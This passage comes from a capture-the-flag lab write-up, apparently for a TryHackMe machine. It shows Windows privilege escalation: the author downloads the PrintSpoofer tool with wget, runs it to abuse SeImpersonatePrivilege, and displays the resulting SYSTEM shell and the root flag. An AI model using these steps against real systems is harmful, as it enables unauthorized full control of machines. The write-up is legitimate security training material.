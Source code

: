 ![image.png](../../assets/screenshots/Relevant/10.webp)

To exploit this, I downloaded PrintSpoofer64.exe—a tool that abuses this privilege to escalate to SYSTEM—using the following command:

```php
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```
![image.png](../../assets/screenshots/Relevant/11.webp)

Once downloaded, I executed it with the following command to spawn a SYSTEM shell:

```php
PrintSpoofer64.exe -i -c cmd
```

This successfully elevated my privileges to NT AUTHORITY\SYSTEM, allowing full access to the target machine.

Results

```php
C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

![image.png](../../assets/screenshots/Relevant/12.webp)

The Flag

```php
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,280,512,512 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
C:\Users\Administrator\Desktop>
```
